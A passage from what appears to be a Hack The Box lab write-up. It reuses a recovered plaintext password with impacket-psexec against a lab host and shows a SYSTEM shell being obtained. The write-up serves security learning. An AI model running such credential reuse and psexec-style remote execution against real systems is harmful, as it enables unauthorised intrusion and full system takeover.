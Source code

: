 Looks like `chase` logs into the web application as `admin` with the credentials of `admin@support.htb:4dD!5}x/re8]FBuZ`.

Let try to authenticate as `Administrator` using these credentials:

```bash
$ impacket-psexec 'administrator:4dD!5}x/re8]FBuZ@10.10.10.149'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.10.149.....
[*] Found writable share ADMIN$
[*] Uploading file MIqDueAk.exe
[*] Opening SVCManager on 10.10.10.149.....
[*] Creating service ORlp on 10.10.10.149.....
[*] Starting service ORlp.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.437]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```